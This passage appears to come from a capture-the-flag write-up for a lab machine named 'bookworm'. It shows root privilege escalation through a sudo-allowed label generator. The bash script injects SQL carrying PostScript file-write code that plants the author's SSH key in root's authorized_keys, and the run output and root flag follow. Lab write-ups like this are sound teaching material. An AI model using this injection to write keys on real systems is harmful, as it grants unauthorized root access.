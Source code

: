 To get root ssh access we need upload our public keys into root `authorized_keys` file


```
#!/bin/bash
sudo /usr/local/bin/genlabel "0 UNION SELECT ')
/outfile (/root/.ssh/authorized_keys) (w) file def
outfile (ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL8AxQTFZHrBYZ9uOIuCk8hfKlTI/wSJBXE5OlKEdnFQ kali@kali) writestring
outfile closefile(', '','','','','',''"
```
I've been created bash script for make work easier

```
neil@bookworm:~$ bash test.sh
Fetching order...
Generating PostScript file...
Generating PDF (until the printer gets fixed...)
Documents available in /tmp/tmp1xahbz52printgen
```

Successfully uploaded my public keys into root `authorized_keys` file . Let's login as root

![](/images/bookworm/2024-01-25-12-13-28.png)

It's Worked !!

```
root@bookworm:~# cat root.txt
ef423ea57cda3a276a8d0075cf7e1926
```
